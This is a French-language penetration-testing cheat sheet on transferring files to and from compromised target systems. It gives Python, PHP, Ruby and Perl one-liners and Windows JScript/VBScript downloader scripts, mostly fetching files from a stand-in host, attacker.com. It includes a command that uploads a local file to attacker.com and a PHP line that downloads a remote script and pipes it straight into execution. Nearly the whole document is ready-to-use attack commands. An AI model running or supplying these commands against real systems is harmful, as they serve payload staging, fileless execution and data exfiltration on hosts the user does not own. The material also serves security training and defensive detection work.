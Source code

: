 # Transferts à l'Aide de Code

Les langages de programmation offrent des moyens flexibles pour transférer des fichiers, souvent utiles quand les outils standards ne sont pas disponibles.

## Python

### Téléchargement de Fichiers

```python
# Python 2
python -c 'import urllib;urllib.urlretrieve("http://attacker.com/file.bin", "file.bin")'

# Python 3
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://attacker.com/file.bin", "file.bin")'

# Avec requests (si disponible)
python3 -c 'import requests;open("file.bin","wb").write(requests.get("http://attacker.com/file.bin").content)'
```

### Envoi de Fichiers

```python
# Avec requests
python3 -c 'import requests;requests.post("http://attacker.com/upload", files={"file":open("file.bin","rb")})'

# Serveur HTTP simple pour réception
python3 -m http.server
```

## PHP

### Téléchargement de Fichiers

```php
# Avec file_get_contents
php -r '$file = file_get_contents("http://attacker.com/file.bin"); file_put_contents("file.bin", $file);'

# Avec fopen
php -r 'const BUFFER = 1024; $fremote = fopen("http://attacker.com/file.bin", "rb"); $flocal = fopen("file.bin", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### Exécution sans Fichier

```php
# Télécharger et exécuter directement
php -r '$lines = @file("http://attacker.com/script.php"); foreach ($lines as $line) { echo $line; }' | php
```

## Ruby

### Téléchargement de Fichiers

```ruby
# Téléchargement simple
ruby -e 'require "net/http"; File.write("file.bin", Net::HTTP.get(URI.parse("http://attacker.com/file.bin")))'

# Avec authentification
ruby -e 'require "net/http"; uri = URI.parse("http://attacker.com/file.bin"); req = Net::HTTP::Get.new(uri); req.basic_auth "user", "pass"; response = Net::HTTP.start(uri.hostname, uri.port) {|http| http.request(req)}; File.write("file.bin", response.body)'
```

## Perl

### Téléchargement de Fichiers

```perl
# Avec LWP::Simple
perl -e 'use LWP::Simple; getstore("http://attacker.com/file.bin", "file.bin");'

# Alternative sans module supplémentaire
perl -e 'use IO::Socket::INET; $client = new IO::Socket::INET(PeerAddr => "attacker.com:80"); print $client "GET /file.bin HTTP/1.0\r\n\r\n"; open(FILE, ">file.bin"); while(<$client>) { print FILE $_; } close FILE;'
```

## JavaScript (Windows)

Utile sur les systèmes Windows sans PowerShell.

### Téléchargement avec cscript.exe

```javascript
// wget.js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

```cmd
# Exécution
cscript.exe /nologo wget.js http://attacker.com/file.exe C:\Users\Public\file.exe
```

## VBScript (Windows)

Alternative à JavaScript sur anciens systèmes Windows.

```vbscript
' wget.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd
# Exécution
cscript.exe /nologo wget.vbs http://attacker.com/file.exe C:\Users\Public\file.exe
```

## Points Importants

- Vérifier les langages disponibles sur le système cible
- Python est souvent présent sur les systèmes Linux modernes
- PHP est courant sur les serveurs web
- JavaScript/VBScript fonctionnent sur pratiquement tous les systèmes Windows
- Certains systèmes restreints peuvent bloquer l'accès réseau direct dans les scripts
- Pour les environnements Windows, préférer PowerShell si disponible